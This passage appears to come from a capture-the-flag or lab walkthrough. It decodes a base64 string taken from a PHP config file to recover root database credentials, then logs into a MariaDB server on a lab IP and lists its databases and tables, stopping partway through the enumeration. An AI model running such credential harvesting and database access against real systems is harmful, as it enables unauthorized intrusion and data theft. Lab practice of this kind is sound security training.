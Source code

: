 ![image](https://user-images.githubusercontent.com/76552238/159150628-ea871740-b6e7-4f0f-b06f-fc77236135b4.png)



From this point it's a matter of decoding the Base64 string.

	$ echo 'PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8' | base64 -d

	<?php
	$server   = "localhost";
	$username = "root";
	$password = "H4u%QJ_H99";
	$database = "Users";
	?base64: invalid input


We know have credentials (root:H4u%QJ_H99). We can log into the site hosted on the web server via the 'login.php' page or mysql on port 3306. 

![image](https://user-images.githubusercontent.com/76552238/159150738-beb1c45e-6ef6-4584-8d20-f5b094832af0.png)

![image](https://user-images.githubusercontent.com/76552238/159150740-5e43ffab-8b6e-494b-ad25-e70710692500.png)

'login.php' doesn't work so let's try to log into the SQL database and get more information.

	$ mysql -h 10.0.0.37 -u root -p

	Enter password: H4u%QJ_H99
	Welcome to the MariaDB monitor.  Commands end with ; or \g.
	Your MySQL connection id is 53
	Server version: 5.5.47-0+deb8u1 (Debian)

	Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

	Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

	MySQL [(none)]> show databases;
	+--------------------+
	| Database           |
	+--------------------+
	| information_schema |
	| Users              |
	+--------------------+
	2 rows in set (0.000 sec)

	MySQL [(none)]> use Users;
	Reading table information for completion of table and column names
	You can turn off this feature to get a quicker startup with -A

	Database changed
	MySQL [Users]> show tables;
	+-----------------+
	| Tables_in_Users |
	+-----------------+
	| users           |
	+-----------------+
	1 row in set (0.000 sec)
